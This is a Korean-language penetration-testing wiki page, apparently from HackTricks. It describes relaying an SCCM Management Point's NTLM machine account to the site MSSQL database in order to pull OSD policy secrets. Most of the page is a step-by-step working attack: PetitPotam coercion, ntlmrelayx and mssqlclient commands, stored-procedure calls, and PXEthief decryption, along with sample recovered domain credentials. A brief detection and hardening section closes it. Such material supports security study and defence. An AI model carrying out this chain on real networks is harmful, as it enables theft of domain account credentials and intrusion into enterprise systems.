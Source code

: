 # SCCM Management Point NTLM Relay to SQL – OSD Policy Secret Extraction

{{#include ../../banners/hacktricks-training.md}}

## TL;DR
**System Center Configuration Manager (SCCM) Management Point (MP)**가 SMB/RPC를 통해 인증하도록 강제하고 그 NTLM 머신 계정을 **사이트 데이터베이스 (MSSQL)**에 **중계**하면 `smsdbrole_MP` / `smsdbrole_MPUserSvc` 권한을 얻습니다. 이 역할은 **운영 체제 배포 (OSD)** 정책 블롭(네트워크 액세스 계정 자격 증명, 작업 시퀀스 변수 등)을 노출하는 일련의 저장 프로시저를 호출할 수 있게 해줍니다. 블롭은 16진수로 인코딩/암호화되어 있지만 **PXEthief**를 사용하여 디코딩 및 복호화할 수 있어 평문 비밀을 얻을 수 있습니다.

고수준 체인:
1. MP 및 사이트 DB 발견 ↦ 인증되지 않은 HTTP 엔드포인트 `/SMS_MP/.sms_aut?MPKEYINFORMATIONMEDIA`.
2. `ntlmrelayx.py -t mssql://<SiteDB> -ts -socks` 시작.
3. **PetitPotam**, PrinterBug, DFSCoerce 등을 사용하여 MP 강제.
4. SOCKS 프록시를 통해 `mssqlclient.py -windows-auth`로 중계된 **<DOMAIN>\\<MP-host>$** 계정으로 연결.
5. 실행:
* `use CM_<SiteCode>`
* `exec MP_GetMachinePolicyAssignments N'<UnknownComputerGUID>',N''`
* `exec MP_GetPolicyBody N'<PolicyID>',N'<Version>'`   (또는 `MP_GetPolicyBodyAfterAuthorization`)
6. `0xFFFE` BOM 제거, `xxd -r -p` → XML  → `python3 pxethief.py 7 <hex>`.

`OSDJoinAccount/OSDJoinPassword`, `NetworkAccessUsername/Password` 등의 비밀이 PXE나 클라이언트에 손대지 않고 복구됩니다.

---

## 1. 인증되지 않은 MP 엔드포인트 열거
MP ISAPI 확장 **GetAuth.dll**은 인증이 필요 없는 여러 매개변수를 노출합니다(사이트가 PKI 전용이 아닌 경우):

| 매개변수 | 목적 |
|-----------|---------|
| `MPKEYINFORMATIONMEDIA` | 사이트 서명 인증서 공개 키 + *x86* / *x64* **모든 알 수 없는 컴퓨터** 장치의 GUID를 반환합니다. |
| `MPLIST` | 사이트의 모든 관리 지점을 나열합니다. |
| `SITESIGNCERT` | 기본 사이트 서명 인증서를 반환합니다(LDAP 없이 사이트 서버 식별). |

나중에 DB 쿼리를 위해 **clientID** 역할을 할 GUID를 가져옵니다:
```bash
curl http://MP01.contoso.local/SMS_MP/.sms_aut?MPKEYINFORMATIONMEDIA | xmllint --format -
```
---

## 2. MP 머신 계정을 MSSQL로 릴레이하기
```bash
# 1. Start the relay listener (SMB→TDS)
ntlmrelayx.py -ts -t mssql://10.10.10.15 -socks -smb2support

# 2. Trigger authentication from the MP (PetitPotam example)
python3 PetitPotam.py 10.10.10.20 10.10.10.99 \
-u alice -p P@ssw0rd! -d CONTOSO -dc-ip 10.10.10.10
```
강제 조작이 발생하면 다음과 같은 내용을 볼 수 있어야 합니다:
```
[*] Authenticating against mssql://10.10.10.15 as CONTOSO/MP01$ SUCCEED
[*] SOCKS: Adding CONTOSO/MP01$@10.10.10.15(1433)
```
---

## 3. 저장 프로시저를 통해 OSD 정책 식별
SOCKS 프록시를 통해 연결 (기본 포트 1080):
```bash
proxychains mssqlclient.py CONTOSO/MP01$@10.10.10.15 -windows-auth
```
**CM_<SiteCode>** DB로 전환합니다(3자리 사이트 코드를 사용합니다, 예: `CM_001`).

### 3.1 알 수 없는 컴퓨터 GUID 찾기 (선택 사항)
```sql
USE CM_001;
SELECT SMS_Unique_Identifier0
FROM dbo.UnknownSystem_DISC
WHERE DiscArchKey = 2; -- 2 = x64, 0 = x86
```
### 3.2 할당된 정책 목록
```sql
EXEC MP_GetMachinePolicyAssignments N'e9cd8c06-cc50-4b05-a4b2-9c9b5a51bbe7', N'';
```
각 행은 `PolicyAssignmentID`, `Body` (hex), `PolicyID`, `PolicyVersion`을 포함합니다.

정책에 집중하세요:
* **NAAConfig**  – 네트워크 액세스 계정 자격 증명
* **TS_Sequence** – 작업 시퀀스 변수 (OSDJoinAccount/Password)
* **CollectionSettings** – 실행 계정을 포함할 수 있습니다.

### 3.3 전체 본문 검색
이미 `PolicyID` 및 `PolicyVersion`이 있는 경우, 다음을 사용하여 clientID 요구 사항을 건너뛸 수 있습니다:
```sql
EXEC MP_GetPolicyBody N'{083afd7a-b0be-4756-a4ce-c31825050325}', N'2.00';
```
> 중요: SSMS에서 “가져온 최대 문자 수”를 증가시키십시오 (>65535) 그렇지 않으면 blob이 잘립니다.

---

## 4. blob 디코드 및 복호화
```bash
# Remove the UTF-16 BOM, convert from hex → XML
echo 'fffe3c003f0078…' | xxd -r -p > policy.xml

# Decrypt with PXEthief (7 = decrypt attribute value)
python3 pxethief.py 7 $(xmlstarlet sel -t -v "//value/text()" policy.xml)
```
복구된 비밀 예:
```
OSDJoinAccount : CONTOSO\\joiner
OSDJoinPassword: SuperSecret2025!
NetworkAccessUsername: CONTOSO\\SCCM_NAA
NetworkAccessPassword: P4ssw0rd123
```
---

## 5. 관련 SQL 역할 및 절차
릴레이 시 로그인은 다음에 매핑됩니다:
* `smsdbrole_MP`
* `smsdbrole_MPUserSvc`

이 역할은 수십 개의 EXEC 권한을 노출하며, 이 공격에 사용되는 주요 권한은 다음과 같습니다:

| 저장 프로시저 | 목적 |
|------------------|---------|
| `MP_GetMachinePolicyAssignments` | `clientID`에 적용된 정책 목록. |
| `MP_GetPolicyBody` / `MP_GetPolicyBodyAfterAuthorization` | 전체 정책 본문 반환. |
| `MP_GetListOfMPsInSiteOSD` | `MPKEYINFORMATIONMEDIA` 경로에 의해 반환됨. |

전체 목록을 확인할 수 있습니다:
```sql
SELECT pr.name
FROM   sys.database_principals AS dp
JOIN   sys.database_permissions AS pe ON pe.grantee_principal_id = dp.principal_id
JOIN   sys.objects AS pr ON pr.object_id = pe.major_id
WHERE  dp.name IN ('smsdbrole_MP','smsdbrole_MPUserSvc')
AND  pe.permission_name='EXECUTE';
```
---

## 6. 탐지 및 강화
1. **MP 로그인 모니터링** – 호스트가 아닌 IP에서 로그인하는 모든 MP 컴퓨터 계정 ≈ 릴레이.
2. 사이트 데이터베이스에서 **인증을 위한 확장 보호 (EPA)** 활성화 (`PREVENT-14`).
3. 사용하지 않는 NTLM 비활성화, SMB 서명 강제, RPC 제한 (
`PetitPotam`/`PrinterBug`에 대해 사용된 동일한 완화 조치).
4. IPSec / 상호 TLS로 MP ↔ DB 통신 강화.

---

## 참조
* NTLM 릴레이 기본 사항:
{{#ref}}
../ntlm/README.md
{{#endref}}

* MSSQL 남용 및 사후 활용:
{{#ref}}
abusing-ad-mssql.md
{{#endref}}



## 참고 문헌
- [귀하의 관리자와 이야기하고 싶습니다: 관리 포인트 릴레이로 비밀 훔치기](https://specterops.io/blog/2025/07/15/id-like-to-speak-to-your-manager-stealing-secrets-with-management-point-relays/)
- [PXEthief](https://github.com/MWR-CyberSec/PXEThief)
- [구성 오류 관리자 – ELEVATE-4 & ELEVATE-5](https://github.com/subat0mik/Misconfiguration-Manager)
{{#include ../../banners/hacktricks-training.md}}
